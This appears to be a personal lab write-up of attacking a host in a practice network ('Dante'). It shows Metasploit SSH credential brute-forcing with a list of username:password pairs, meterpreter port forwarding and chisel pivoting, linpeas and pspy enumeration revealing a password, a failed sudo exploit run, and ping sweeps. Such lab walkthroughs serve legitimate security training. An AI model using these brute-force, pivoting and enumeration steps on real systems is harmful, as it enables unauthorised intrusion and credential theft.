



Running a portscan on the device show like only SSH serbvice is open on the device:

```
msf6 auxiliary(scanner/portscan/tcp) > run

[+] 172.16.2.101:         - 172.16.2.101:22 - TCP OPEN
[*] 172.16.2.101:         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/portscan/tcp) >
```

We may want to try to login to ssh service but we have to find a working credentials.

I added all the username and password found untill now, both from the excell list and from all the other servers.

&nbsp;

* * *

## EDIT:

At the end I had to use chisel from DC01 -- KALI to setup a more stable connection that is falling every minute or so:



And when I had that I could get a Metepreter to DC02 and setup autoroute to get to whole 172.16.2.0/24

* * *

&nbsp;

## PE:

After parsing thru the whole list we finally found a working account that can login is Julius account(the account cracked from DANTE-NIX04):

```
msf6 auxiliary(scanner/ssh/ssh_login) > run

[*] 172.16.2.101:22 - Starting bruteforce
[-] 172.16.2.101:22 - Failed: 'asmith:Princess1'
[!] No active DB -- Credential data will not be saved!
[-] 172.16.2.101:22 - Failed: 'smoggat:Summer2019'
[-] 172.16.2.101:22 - Failed: 'tmodle:P45678!'
[-] 172.16.2.101:22 - Failed: 'ccraven:Password1'
[-] 172.16.2.101:22 - Failed: 'kploty:Teacher65'
[-] 172.16.2.101:22 - Failed: 'jbercov:4567Holiday1'
[-] 172.16.2.101:22 - Failed: 'whaguey:acb123'
[-] 172.16.2.101:22 - Failed: 'dcamtan:WorldOfWarcraft67'
[-] 172.16.2.101:22 - Failed: 'tspadly:RopeBlackfieldForwardslash'
[-] 172.16.2.101:22 - Failed: 'ematlis:JuneJuly1TY'
[-] 172.16.2.101:22 - Failed: 'fglacdon:FinalFantasy7'
[-] 172.16.2.101:22 - Failed: 'tmentrso:65RedBalloons'
[-] 172.16.2.101:22 - Failed: 'dharding:WestminsterOrange5'
[-] 172.16.2.101:22 - Failed: 'smillar:MarksAndSparks91'
[-] 172.16.2.101:22 - Failed: 'bjohnston:Bullingdon1'
[-] 172.16.2.101:22 - Failed: 'iahmed:Sheffield23'
[-] 172.16.2.101:22 - Failed: 'plongbottom:PowerfixSaturdayClub777'
[-] 172.16.2.101:22 - Failed: 'jcarrot:Tanenbaum0001'
[-] 172.16.2.101:22 - Failed: 'lgesley:SuperStrongCantForget123456789'
[-] 172.16.2.101:22 - Failed: 'james:Toyota'
[-] 172.16.2.101:22 - Failed: 'balthazar:TheJoker12345!'
[-] 172.16.2.101:22 - Failed: 'margaret:Welcome1!2@3#'
[-] 172.16.2.101:22 - Failed: 'frank:TractorHeadtorchDeskmat'
[-] 172.16.2.101:22 - Failed: 'dharding:WestminsterOrange5'
[-] 172.16.2.101:22 - Failed: 'dharding:WestminsterOrange5'
[-] 172.16.2.101:22 - Failed: 'mrb3n:S3kur1ty2020!'
[-] 172.16.2.101:22 - Failed: 'jbercov:myspace7'
[-] 172.16.2.101:22 - Failed: 'ian:VPN123ZXC'
[+] 172.16.2.101:22 - Success: 'julian:manchesterunited' 'uid=1001(julian) gid=1001(julian) groups=1001(julian) Linux DANTE-ADMIN-NIX05 5.4.0-39-generic #43-Ubuntu SMP Fri Jun 19 10:28:31 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 3 opened (10.10.17.107-10.10.110.3:63470 -> 172.16.2.101:22) at 2023-09-06 14:14:55 +0200
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ssh/ssh_login) >
```

We need to setup a local portfw to get the ssh working:

```
meterpreter > portfwd add -l 2222 -p 22 -r 172.16.2.101
[*] Forward TCP relay created: (local) :2222 -> (remote) 172.16.2.101:22
meterpreter > portfwd 

Active Port Forwards
====================

   Index  Local            Remote        Direction
   -----  -----            ------        ---------
   1      172.16.2.101:22  0.0.0.0:2222  Forward

1 total active port forwards.

meterpreter >
```

and then we can login:



Checking I see only Julian's account and he have no root access, next I see a custom file on the root folder:



I will upload linpeas and check what we can do here:

```
═══════════════════════════════╣ Basic information ╠═══════════════════════════════                                                                                                                                                                          
                               ╚═══════════════════╝                                                                                                                                                                                                         
OS: Linux version 5.4.0-39-generic (buildd@lcy01-amd64-016) (gcc version 9.3.0 (Ubuntu 9.3.0-10ubuntu2)) #43-Ubuntu SMP Fri Jun 19 10:28:31 UTC 2020
User & Groups: uid=1001(julian) gid=1001(julian) groups=1001(julian)
Hostname: DANTE-ADMIN-NIX05
Writable folder: /dev/shm
[+] /usr/bin/ping is available for network discovery (linpeas can discover hosts, learn more with -h)
[+] /usr/bin/bash is available for network discovery, port scanning and port forwarding (linpeas can discover hosts, scan ports, and forward ports. Learn more with -h)                                                                                      
[+] /usr/bin/nc is available for network discovery & port scanning (linpeas can discover hosts and scan ports, learn more with -h)                                   

╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version                                                                                                                                                                              
Sudo version 1.8.31  

                              ╔═════════════════════╗
══════════════════════════════╣ Network Information ╠══════════════════════════════                                                                                                                                                                          
                              ╚═════════════════════╝                                                                                                                                                                                                        
╔══════════╣ Hostname, hosts and DNS
DANTE-ADMIN-NIX05                                                                                                                                                                                                                                            
127.0.0.1       localhost DANTE-ADMIN-NIX05
127.0.1.1       ubuntu

::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

nameserver 127.0.0.53
options edns0

╔══════════╣ Interfaces
# symbolic names for networks, see networks(5) for more information                                                                                                                                                                                          
link-local 169.254.0.0
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.2.101  netmask 255.255.255.0  broadcast 172.16.2.255
        inet6 fe80::250:56ff:feb9:9d0b  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:9d:0b  txqueuelen 1000  (Ethernet)
        RX packets 12164  bytes 1799171 (1.7 MB)
        RX errors 0  dropped 17  overruns 0  frame 0
        TX packets 12235  bytes 1275154 (1.2 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 303  bytes 28538 (28.5 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 303  bytes 28538 (28.5 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0


╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                                                                                                                                
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                                                                                                                                                                            
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 ::1:631                 :::*                    LISTEN      -                   

╔══════════╣ Can I sniff with tcpdump?
No


╔══════════╣ Analyzing Wifi Connections Files (limit 70)
drwxr-xr-x 2 root root 4096 Apr 14  2021 /etc/NetworkManager/system-connections                                                                                                                                                                              
drwxr-xr-x 2 root root 4096 Apr 14  2021 /etc/NetworkManager/system-connections
-rw------- 1 root root 348 Jul 10  2020 /etc/NetworkManager/system-connections/Wired connection 1.nmconnection


╔══════════╣ Analyzing Github Files (limit 70                                                                                                                                                                                                                                                        
drwxrwxr-x 8 julian julian 4096 Apr 14  2021 /home/julian/peda/.git

══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                                                                                                                                                           
                      ╚════════════════════════════════════╝                                                                                                                                                                                                 
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                                                                                                             
-rwsr-sr-x 1 root julian 17K Jun 30  2020 /usr/sbin/readfile (Unknown SUID binary!)


╔══════════╣ SGID
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                                                                                                             
-rwsr-sr-x 1 root root 15K May 21  2020 /usr/lib/xorg/Xorg.wrap                                                                                                                                                                                              
-rwxr-sr-x 1 root shadow 43K Dec 17  2019 /usr/sbin/unix_chkpwd
-rwxr-sr-x 1 root shadow 43K Dec 17  2019 /usr/sbin/pam_extrausers_chkpwd
-rwsr-sr-x 1 root julian 17K Jun 30  2020 /usr/sbin/readfile (Unknown SGID binary)

╔══════════╣ Searching root files in home dirs (limit 30)
/home/                                                                                                                                                                                                                                                       
/home/julian/.bash_history
/home/julian/.gdb_history
/root/


╔══════════╣ Writable log files (logrotten) (limit 50)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#logrotate-exploitation                                                                                                                                                                    
logrotate 3.14.0                                                                                                                                                                                                                                             

    Default mail command:       /usr/bin/mail
    Default compress command:   /bin/gzip
    Default uncompress command: /bin/gunzip
    Default compress extension: .gz
    Default state file path:    /var/lib/logrotate/status
    ACL support:                yes
    SELinux support:            yes
Writable: /home/julian/.local/share/xorg/Xorg.0.log
Writable: /home/julian/.local/share/xorg/Xorg.0.log.old                                                                                                                                                                                                      
Writable: /home/julian/.local/share/gvfs-metadata/trash:-ac149dbf.log                                                                                                                                                                                        
Writable: /home/julian/.local/share/gvfs-metadata/root-9c947f5f.log                                                                                                                                                                                          
Writable: /home/julian/.local/share/gvfs-metadata/home-3e552ca0.log
```

Running pspy we can see julians password:

```
2023/09/06 05:55:01 CMD: UID=0     PID=37255  | /bin/bash echo manchesterunited 
2023/09/06 05:55:01 CMD: UID=0     PID=37254  | /bin/sh -c /bin/bash echo "manchesterunited" | passwd --stdin julian 
2023/09/06 05:55:01 CMD: UID=0     PID=37252  | /usr/sbin/CRON -f
```

So if we resume, we have a possible vulnerable sudo to SAM BARON 2 but it's already been patched:

```
julian@DANTE-ADMIN-NIX05:/tmp$ python3 exploit_nss.py 
Traceback (most recent call last):
  File "exploit_nss.py", line 220, in <module>
    assert check_is_vuln(), "target is patched"
AssertionError: target is patched
julian@DANTE-ADMIN-NIX05:/tmp$
```

Logrotate is active but not vulnerable, those history files are linking to /Dev/null in julius home.

There are traces of a Wiredconnection on the machine which could be sign of access to other networks?

```
julian@DANTE-ADMIN-NIX05:/etc/NetworkManager/system-connections$ ls -al
total 12
drwxr-xr-x 2 root root 4096 Apr 14  2021  .
drwxr-xr-x 7 root root 4096 Apr 14  2021  ..
-rw------- 1 root root  348 Jul 10  2020 'Wired connection 1.nmconnection'
```

Lastly we have that custom elf binary that have SUID/GUID permissions so I guess we need to exploit that to get a working root PE.

First we can check for .SO dynamic libraries loaded from the binary:

```
julian@DANTE-ADMIN-NIX05:/$ ldd readfiles 
        linux-vdso.so.1 (0x00007ffff7fce000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7dc4000)
        /lib64/ld-linux-x86-64.so.2 (0x00007ffff7fcf000)
```

Let's try to see where it loads the files:

```
julian@DANTE-ADMIN-NIX05:/$ readelf -d readfiles 

Dynamic section at offset 0x2e20 contains 24 entries:
  Tag        Type                         Name/Value
 0x0000000000000001 (NEEDED)             Shared library: [libc.so.6]
 0x000000000000000c (INIT)               0x401000
 0x000000000000000d (FINI)               0x401268
 0x0000000000000019 (INIT_ARRAY)         0x403e10
 0x000000000000001b (INIT_ARRAYSZ)       8 (bytes)
 0x000000000000001a (FINI_ARRAY)         0x403e18
 0x000000000000001c (FINI_ARRAYSZ)       8 (bytes)
 0x000000006ffffef5 (GNU_HASH)           0x4003a0
 0x0000000000000005 (STRTAB)             0x400450
 0x0000000000000006 (SYMTAB)             0x4003c0
 0x000000000000000a (STRSZ)              75 (bytes)
 0x000000000000000b (SYMENT)             24 (bytes)
 0x0000000000000015 (DEBUG)              0x0
 0x0000000000000003 (PLTGOT)             0x404000
 0x0000000000000002 (PLTRELSZ)           72 (bytes)
 0x0000000000000014 (PLTREL)             RELA
 0x0000000000000017 (JMPREL)             0x4004f8
 0x0000000000000007 (RELA)               0x4004c8
 0x0000000000000008 (RELASZ)             48 (bytes)
 0x0000000000000009 (RELAENT)            24 (bytes)
 0x000000006ffffffe (VERNEED)            0x4004a8
 0x000000006fffffff (VERNEEDNUM)         1
 0x000000006ffffff0 (VERSYM)             0x40049c
 0x0000000000000000 (NULL)               0x0
```

```
julian@DANTE-ADMIN-NIX05:/$ strace ./readfiles /root/flag.txt
execve("./readfiles", ["./readfiles", "/root/flag.txt"], 0x7fffffffe538 /* 24 vars */) = 0
brk(NULL)                               = 0x405000
arch_prctl(0x3001 /* ARCH_??? */, 0x7fffffffe460) = -1 EINVAL (Invalid argument)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat(3, {st_mode=S_IFREG|0644, st_size=74047, ...}) = 0
mmap(NULL, 74047, PROT_READ, MAP_PRIVATE, 3, 0) = 0x7ffff7fb8000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\3\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\360q\2\0\0\0\0\0"..., 832) = 832
pread64(3, "\6\0\0\0\4\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0"..., 784, 64) = 784
pread64(3, "\4\0\0\0\20\0\0\0\5\0\0\0GNU\0\2\0\0\300\4\0\0\0\3\0\0\0\0\0\0\0", 32, 848) = 32
pread64(3, "\4\0\0\0\24\0\0\0\3\0\0\0GNU\0cBR\340\305\370\2609W\242\345)q\235A\1"..., 68, 880) = 68
fstat(3, {st_mode=S_IFREG|0755, st_size=2029224, ...}) = 0
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7ffff7fb6000
pread64(3, "\6\0\0\0\4\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0"..., 784, 64) = 784
pread64(3, "\4\0\0\0\20\0\0\0\5\0\0\0GNU\0\2\0\0\300\4\0\0\0\3\0\0\0\0\0\0\0", 32, 848) = 32
pread64(3, "\4\0\0\0\24\0\0\0\3\0\0\0GNU\0cBR\340\305\370\2609W\242\345)q\235A\1"..., 68, 880) = 68
mmap(NULL, 2036952, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x7ffff7dc4000
mprotect(0x7ffff7de9000, 1847296, PROT_NONE) = 0
mmap(0x7ffff7de9000, 1540096, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x25000) = 0x7ffff7de9000
mmap(0x7ffff7f61000, 303104, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x19d000) = 0x7ffff7f61000
mmap(0x7ffff7fac000, 24576, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1e7000) = 0x7ffff7fac000
mmap(0x7ffff7fb2000, 13528, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x7ffff7fb2000
close(3)                                = 0
arch_prctl(ARCH_SET_FS, 0x7ffff7fb7540) = 0
mprotect(0x7ffff7fac000, 12288, PROT_READ) = 0
mprotect(0x403000, 4096, PROT_READ)     = 0
mprotect(0x7ffff7ffc000, 4096, PROT_READ) = 0
munmap(0x7ffff7fb8000, 74047)           = 0
fstat(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(0x88, 0), ...}) = 0
brk(NULL)                               = 0x405000
brk(0x426000)                           = 0x426000
write(1, "Error reading file located at /r"..., 45Error reading file located at /root/flag.txt
) = 45
exit_group(0)                           = ?
+++ exited with 0 +++
```

Strange I don't see anything wrong, let's try to crate a file in tmp and check what happens:

```
julian@DANTE-ADMIN-NIX05:/$ strace /tmp/test.txt 
execve("/tmp/test.txt", ["/tmp/test.txt"], 0x7fffffffe550 /* 24 vars */) = -1 EACCES (Permission denied)
strace: exec: Permission denied
+++ exited with 1 +++
```

Ok As I understand this is a Buffer overflow challenge and I will skip it for now...

* * *

## Further Enumeration:

I will try to check if other host are available from this network with a ping scan:

```
julian@DANTE-ADMIN-NIX05:/tmp$ ./nmap -sn 172.16.2.0/24
Starting Nmap 7.93SVN ( https://nmap.org ) at 2023-09-06 06:17 PDT
Stats: 0:00:02 elapsed; 0 hosts completed (0 up), 256 undergoing Ping Scan
Ping Scan Timing: About 81.35% done; ETC: 06:17 (0:00:00 remaining)
Nmap scan report for _gateway (172.16.2.1)
Host is up (0.00045s latency).
Nmap scan report for 172.16.2.5
Host is up (0.0010s latency).
Nmap scan report for DANTE-ADMIN-NIX05 (172.16.2.101)
Host is up (0.00011s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 2.44 seconds
```

seem no but I will run another script just to doublecheck:

```
julian@DANTE-ADMIN-NIX05:/tmp$ for i in {1..254} ;do (ping 172.16.2.$i -c 1 -w 5  >/dev/null && echo "172.16.2.$i" &) ;done
172.16.2.5
172.16.2.6
172.16.2.101
```

Aha we have another device, the .6 was missing at the beginning.

&nbsp;

&nbsp;

&nbsp;